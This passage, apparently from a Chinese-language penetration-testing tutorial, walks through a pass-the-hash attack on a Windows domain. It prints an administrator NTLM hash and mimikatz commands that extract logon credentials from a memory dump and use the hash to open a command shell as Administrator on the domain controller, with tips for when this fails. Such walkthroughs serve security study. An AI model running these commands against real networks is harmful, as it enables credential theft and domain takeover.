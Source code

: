 域名 => MAO

[![](assets/1706496056-491bbae9756992e6f0df39e92dafaf39.png)](https://img2023.cnblogs.com/other/3262985/202309/3262985-20230907172304880-1150251025.png)

拿到管理员的 ntml hash => 570a9a65db8fba761c1008a51d4c95ab

```plain
其实通过 mimikatz.exe，啥都满足了：
sekurlsa::minidump ./passwd.dmp
sekurlsa::logonpasswords full
```

[![](assets/1706496056-171c60ebbf9992a2a56d0bf59028f751.png)](https://img2023.cnblogs.com/other/3262985/202309/3262985-20230907172305175-695771125.png)

### ⑤发起攻击

#### 法一：mimikatz 直接 pth

```plain
sekurlsa::pth /user:<pth 的对象> /domain:<域名> /ntlm:<ntlm hash> [/run:name]

privilege::debug
sekurlsa::pth /user:Administrator /domain:MAO /ntlm:570a9a65db8fba761c1008a51d4c95ab /run:cmd
```

拿下域控权限。(如果参数都填写正确的情况下，还是无法攻击成功的话，尝试关闭 mimikatz 窗口，重新以管理员启动 cmd.exe，重新提升权限，再进行攻击。run 后面的命令不写也行，默认开启域控的 cmd.exe)
